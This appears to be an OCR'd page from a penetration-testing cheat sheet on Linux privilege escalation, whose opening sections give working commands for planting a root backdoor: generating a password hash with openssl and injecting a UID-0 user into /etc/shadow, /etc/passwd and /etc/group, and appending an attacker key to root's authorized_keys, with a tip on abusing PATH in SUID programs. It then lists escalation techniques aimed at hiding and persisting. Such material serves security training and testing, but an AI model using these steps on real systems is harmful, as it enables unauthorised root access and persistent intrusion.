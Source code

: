 # Privilege Escalation - Linux

## Overwriting /etc/shadow

```text
Generate Password to inject
$  openssl passwd -1 Your-Password
Ex. openssl passwd -1 password
$1$EiWbfsf/$5xKQS.fuFLrZXG3N/AvBD1

-- > /etc/shadow
r00t:$1$EiWbfsf/$5xKQS.fuFLrZXG3N/AvBD1::0:99999:7:::

-- > /etc/passwd
r00t::0:0wned:/root:/bin/bash

-- > /etc/group
r00t:x:0:
```

### Or just add yourself into roots authorized keys file

```text
$ ssh-keygen -t rsa -N ''
#!/bin/sh
echo "<key.pub>" >> /root/.ssh/authorized_keys

-- > If a suid program calls other programs in its execution and doesn't
-- > validate the path, you can change path to use your program (above)
-- > instead of the program that is supposed to get called.
```

Once we have a limited shell it is useful to escalate that shells privileges. This way it will be easier to hide, read and write any files, and persist between reboots.

In this chapter I am going to go over these common Linux privilege escalation techniques:

* Kernel exploits
* Programs running as root
* Installed software
* Weak/reused/plaintext passwords
* Inside service
* Suid misconfiguration
* Abusing sudo-rights
* World writable scripts invoked by root
* Bad path configuration
* Cronjobs
* Unmounted filesystems

## Enumeration scripts

